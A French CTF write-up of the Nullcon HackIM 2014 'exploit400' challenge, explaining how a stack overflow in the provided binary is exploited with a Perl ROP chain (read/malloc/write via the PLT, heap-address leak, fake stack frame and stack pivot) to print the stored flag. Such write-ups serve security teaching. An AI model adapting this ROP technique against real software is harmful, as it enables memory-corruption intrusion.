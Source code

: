 Title: [NULLCON-CTF-2014] Exploit 400
Date: 2014-01-26
Tags: ctf
Author: Tosh
Summary: nullcon-ctf exploit400 write-up

Voici un petit write-up du challenge exploit400, du CTF Nullcon Hackim 2014.

Vous pouvez trouver le binaire ici : [exploit400](http://download.tuxfamily.org/toshpage/CTF/NULLCON_2014/exploit400)
Et la source ici : [exploit400.c](http://download.tuxfamily.org/toshpage/CTF/NULLCON_2014/exploit400.c)

Le fait que nous avions accés au code source du programme nous a bien facilité la tâche.

Le programme est on ne peut plus simple :
- Il ouvre et lit le flag de validation, et le stock dans le heap.
- Il demande ensuite une saisie, qui abouti facilement à un stack based overflow.

Il n'y a pas beaucoup de protection, et j'ai programmé mon exploit en prenant en compte l'ASLR probable :

	:::console
	RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
	No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   exploit400

Comment lire le flag stocké en mémoire ? J'ai choisi de faire du ROP afin de bypass l'ASLR et NX.

La première chose que j'ai fais, c'est mettre à zéro 4 bytes du segment DATA. Pour se faire, j'ai utilisé la fonction read, présente dans la @PLT, afin d'envoyer 0x00000000.

	:::perl
	$payload .= pack('L', 0x080483d0); # read@plt                                                                                                                                      
	$payload .= pack('L', 0x080486a7); # pop3;ret                                                                                                                                      
	$payload .= pack('L', 0x00000000); # stdin                                                                                                                                         
	$payload .= pack('L', 0x080498d8); # DATA                                                                                                                                          
	$payload .= pack('L', 4); # size

Ensuite, j'exécute un malloc, histoire d'avoir une adresse du heap, et connaître ainsi l'emplacement du flag.

	:::perl

	$payload .= pack('L', 0x080483f0); # malloc@plt                                                                                                                                    
	$payload .= pack('L', 0x080483a0); # pop;ret                                                                                                                                       
	$payload .= pack('L', 0x100); # size

L'adresse du flag est alors à : EAX - OFFSET. Avec quelques gadgets, je stocke cette valeur en mémoire. (dans la zone initialisé grâce à la fonction read)

	:::perl

	$payload .= pack('L', 0x080483a0); # pop ebx; ret                                                                                                                                  
	$payload .= pack('L', 0x080498d8-0x5d5b04c4); # DATA                                                                                                                               

	$payload .= pack('L', 0x080484de); # add [ebx+0x5d5b04c4],eax 

Je m'envois alors cette valeur via la fonction write

	:::perl
	$payload .= pack('L', 0x08048440); # write@plt                                                                                                                                     
	$payload .= pack('L', 0x080486a7); # pop3;ret                                                                                                                                      
	$payload .= pack('L', 0x00000001); # stdout                                                                                                                                        
	$payload .= pack('L', 0x080498d8); # DATA                                                                                                                                          
	$payload .= pack('L', 4); # size

J'ai choisi d'utiliser une technique de fake-stack-frame + stack-pivot afin d'avoir un code "dynamique" (je calcule comme ça les offsets du heap dans l'exploit, et je peux créer la fake-stack-frame en conséquence). Je reçois ma stack via read(), que je stock dans le segment DATA.
J'exécute ensuite une instruction du type pop ebp; leave; ret; afin de changer de stack-frame.

	:::perl
	$payload .= pack('L', 0x080483d0); # read@plt                                                                                                                                      
	$payload .= pack('L', 0x080486a7); # pop3;ret                                                                                                                                      
	$payload .= pack('L', 0x00000000); # stdin                                                                                                                                         
	$payload .= pack('L', 0x080498d8); # DATA                                                                                                                                          
	$payload .= pack('L', 0x130); # size                                                                                                                                               

	$payload .= pack('L', 0x080484e3); # pop ebp ; ret                                                                                                                                 
	$payload .= pack('L', 0x080498d4);
	$payload .= pack('L', 0x08048511); # leave; ret

Envois du payload

	:::perl
	print $sock $payload;

Mise à zéro d'une variable en mémoire (premier read)

	:::perl
	print $sock "\x00\x00\x00\x00";

Lecture de l'adresse du HEAP envoyée

	:::perl
	$sock->read($r, 21);
	$sock->read($r, 4);
	$r = unpack('L', $r);

Création + envoi de la fake-stack-frame. Il s'agit s'implement d'un write() envoyant le flag.

	:::perl

	$stack .= pack('L', 0x08048440); # write@plt                                                                                                                                       
	$stack .= pack('L', 0x080486a7); # pop3;ret                                                                                                                                        
	$stack .= pack('L', 0x00000001); # stdout                                                                                                                                          
	$stack .= pack('L', $r-0x48); # FLAG                                                                                                                                               
	$stack .= pack('L', 100); # size                                                                                                                                                   

	print $sock $stack;

Réception du flag et validation du challenge !!!

	:::perl

	while($r = <$sock>) {
		print $r;
	}

Un challenge simple, mais plutôt marrant.

Voici l'exploit entier : [exploit400.pl](https://github.com/t00sh/ctf/blob/master/nullcon_ctf_2014/exploit400.pl)

